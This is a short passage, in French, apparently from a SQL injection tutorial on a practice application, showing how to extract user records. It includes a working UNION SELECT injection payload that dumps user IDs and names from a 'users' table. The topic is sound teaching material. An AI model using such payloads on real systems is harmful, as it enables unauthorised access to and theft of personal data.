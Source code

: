 ![20-injection-select-columns-schema-table-users](../images/2020/07/20-injection-select-columns-schema-table-users.png)   

## Extraction de données  

Essayons d'extraire la liste des utilisateurs de la base de données :  

`1 UNION Select null, concat(0x0a,'USER ID: ',user_id, 0x0a, 'First name: ', first_name, 0x0a, 'Last name: ', last_name ) from users #`  

Truc:  `0x0a` et le caractère de retour de chariot, permet d'afficher sur plusieurs lignes nos résultats...
